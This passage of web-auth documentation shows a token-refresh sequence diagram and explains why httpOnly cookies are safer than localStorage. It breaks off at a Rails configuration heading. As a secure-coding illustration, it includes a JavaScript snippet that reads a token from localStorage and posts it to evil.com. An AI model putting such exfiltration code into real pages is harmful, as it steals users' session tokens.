 ```
      │                                  │
      │  GET /api/users/profile          │
      │  Cookie: access_token=expired    │
      ├─────────────────────────────────>│
      │                              1. Verify token
      │                              2. Token expired ❌
      │                                  │
      │  401 Unauthorized                │
      │<─────────────────────────────────┤
      │                                  │
  Frontend auto-retry:                   │
      │                                  │
      │  POST /api/auth/refresh          │
      │  Cookie: refresh_token=...       │
      ├─────────────────────────────────>│
      │                              1. Verify refresh_token
      │                              2. Generate new access_token
      │                              3. Set new cookie
      │                                  │
      │  Set-Cookie: access_token=new   │
      │<─────────────────────────────────┤
      │                                  │
      │  Retry original request          │
      │  GET /api/users/profile          │
      ├─────────────────────────────────>│
      │                                  │
      │  { id: 1, name: "..." }         │
      │<─────────────────────────────────┤
```

**Why httpOnly Cookie?**

✅ **Advantages**:
- JavaScript cannot access the token (protection against XSS attacks)
- Automatically sent with every request (no manual header management)
- Can set security flags (`secure`, `sameSite`)
- Works seamlessly with CORS when configured properly

❌ **Why NOT localStorage/sessionStorage?**:
```javascript
// ❌ VULNERABLE to XSS attacks
localStorage.setItem('access_token', token);

// If attacker injects malicious script:
const stolen = localStorage.getItem('access_token');
fetch('https://evil.com/steal', {
  method: 'POST',
  body: stolen  // Token stolen!
});
```

**Backend configuration** (Rails):
